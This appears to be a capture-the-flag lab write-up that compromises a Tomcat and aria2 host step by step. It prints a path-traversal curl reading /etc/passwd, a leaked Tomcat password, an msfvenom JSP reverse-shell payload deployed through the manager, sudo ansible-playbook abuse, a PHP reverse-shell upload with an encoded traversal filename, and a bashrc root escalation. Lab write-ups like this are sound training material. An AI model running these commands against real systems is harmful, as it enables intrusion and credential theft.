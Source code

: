 Started with a nmap scan
```
22 OpenSSH 8.2p1
6800 aria2 downloader
8080 Apache Tomcat 8.5.93
8888 sun-answernotebook? aria2 webUI
```
Started a gobuster on port `8080`
```
/docs
/examples
/manager
/RELEASE-NOTES.txt
```
On port `8888` there is a LFI vulnerability `CVE-2023-39141` and we can read passwd
`curl --path-as-is http://10.10.72.169:8888/../../../../../../../../../../../etc/passwd` and we got 2 users we can see 
```
orville
wilbur
```
Looking some local files that we could try and get to and found a file with a login and password
`tomcat:OPx52k53D80kTZpx4fr` now that we have these creds we can make a war file with msfvenom 
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.13.8.255 LPORT=1234 -f war -o shell.war` 
and we can upload this with curl 
`curl http://10.10.38.206:8080/manager/txt/deploy?path=/shell&update=true` and then we have to curl the file path agin and we got a call back as tomcat
`curl http://10.10.38.206:8080/shell/`
and running `sudo -l` we can run a ansible playbook and we can get a reverse shell like this we make a playbook file to exacute a sh file with are reverse shell in it and then we have to run `chmod 777` on the `test.yml` and `priv.sh` file and then exacute this command
`sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/test.yml` 
and now we are `wilbur` we go to the home folder for `wilbur` and there is 2 files `.just_in_case` has the SSH creds in it for the user and then a file called `from_orville.txt` that has a web app login creds so looking around to see what ports are open for this webapp I found that `80` was open so I forward to port `9999` 
`ssh -L 9999:127.0.0.1:80 wilbur@10.10.38.206`
and now we have a webapp and after we login we have a image upload we can take a php revshell and name it to `../../shell.png.php` with the dot slash double encoded and we got a shell now as `orville` and there is a zip file in the home folder of orville we run pspy and we can see that root is logging into orville with out the `-p` flag so we can stop the process and then edit are bashrc file to give us access to bash as root 
